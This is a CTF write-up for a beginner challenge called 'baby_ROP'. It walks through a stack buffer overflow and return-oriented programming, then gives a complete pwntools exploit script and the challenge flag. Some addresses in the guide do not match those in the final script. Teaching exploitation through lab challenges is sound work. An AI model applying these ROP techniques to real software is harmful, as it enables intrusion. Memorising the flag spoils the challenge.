 # Challenge Name
baby_ROP

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
ROOOOOOOOOOPPERS. Tell me the gadgets used as your flag. ex. if rax and rbx are used, then put as `MACCTF{raxrbx}`

## Difficulty:
guided (easy)

## Guide
Looking at the code, we have to use ret2win again for the uncalled `win` function. However, we have to fulfil the function arguments in order to call it.
1. a = 0x1337
2. b = 0xdead

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use 2 arguments, so we need to use `rdi` & `rsi` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `win` function
3. Gadgets

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the `win` address:
```sh
$> objdump -d baby_ROP_bin | grep win
0000000040537 <win>:
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary baby_ROP_bin | grep rdi
0x0000000000400603 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary baby_ROP_bin | grep rsi
0x0000000000400601 : pop rsi ; pop r15 ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `win` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + argument 1 (rdi)
3. pop rsi address + argument 2 (rsi) + redundent value (r15)
4. return address of `win` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = remote("IP", PORT)

# address of win function
win_addr = p64(0x400757)

# ROP gadget addresses
rdi_addr = p64(0x4008e3)
rsi_addr = p64(0x4008e1)

# payload = 
# padding
# pop rdi + argument 1
# pop rsi + argument 2 + pop r15 (we dont need r15)
# return to win

payload = b'A' * 40
payload += rdi_addr + p64(0x1337)
payload += rsi_addr + p64(0xdead) + p64(0)
payload += win_addr 

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. Ever heard of ROPgadgets/ropper/rp++?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
- baby_ROP.c
- baby_ROP_bin

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing


## Flag
`MACCTF{rdirsi}`